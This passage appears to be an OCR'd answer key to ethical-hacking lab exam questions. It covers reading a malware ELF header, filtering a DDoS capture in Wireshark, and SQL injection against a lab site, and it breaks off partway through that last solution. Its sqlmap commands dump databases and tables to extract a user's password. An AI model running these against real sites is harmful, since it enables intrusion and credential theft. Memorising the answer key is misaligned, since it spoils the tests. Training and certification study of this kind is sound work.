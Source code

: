 Thief RAT -> File Manager -> Open "Scan" folder -> Count files
-------------------------------------------------------------------------------------------------------
11. Find PT_LOAD(0) of the malware executable file given.
Answer: 0x08048000
Solution:
Open DIE and load the executable:
File > Open > Select malware.exe
Switch to ELF Tab (if the file is ELF):
Navigate to the ELF tab to see the program headers.
Locate PT_LOAD(0):
Look for the first PT_LOAD entry in the list of program headers.

Record the Virtual Address and Offset:
yamlCopy code
Type: PT_LOAD
Offset: 0x00000000
Virtual Addr: 0x08048000
Physical Addr: 0x08048000
File Size: 0x00002000
Mem Size: 0x00002000
Flags: R E
Align: 0x1000


-------------------------------------------------------------------------------------------------------
12. You are investigating a massive DDoS attack launched against a target at
172.22.10.10. Your objective is to identify the packets responsible for the attack and
determine the least IPv4 packet count sent to the victim machine. The network capture file
"Evil-traffic.pcapng" is saved in the Documents folder of the "EH Workstation – 2" (Windows
11) machine.(Format: NNNNN)
Answer: 00042
Solution:
Open Wireshark and load Evil-traffic.pcapng :
File > Open > Documents > Select Evil-traffic.pcapng .
Apply the display filter:
In the filter bar, type: ip.dst == 172.22.10.10 and press Enter.
Open IPv4 Conversations:
Statistics > Conversations > IPv4 tab.
Sort by Packets:
Click on the Packets column header to sort conversations by packet count.
Identify the least packet count:
Look through the sorted list to find the conversation with the least number of packets sent to 172.22.10.10 .
-------------------------------------------------------------------------------------------------------
13. Perform an SQL injection attack on your target web application
cinema.cehorg.com and extract the password of user Daniel. You have already registered on
the website with credentials Karen/computer. (Format: aaaaaaaaaa)
Answer: qwertyuiop
Solution:
1. Run sqlmap:
Open a terminal and run sqlmap against the vulnerable URL or parameter. For example, if the search field
is vulnerable:
sqlmap -u "http://cinema.cehorg.com/search.php?q=test" --cookie="PHPSESSID=your_
session_id" --dump
2. Identify the Database and Tables:
Use sqlmap to list the databases:
sqlmap -u "http://cinema.cehorg.com/search.php?q=test" --cookie="PHPSESSID=your_
session_id" --dbs
Once you identify the database, list its tables:
sqlmap -u "http://cinema.cehorg.com/search.php?q=test" --cookie="PHPSESSID=your_
session_id" -D database_name --tables
3. Extract the User Table:
Identify the table containing user information (e.g., users , accounts , etc.):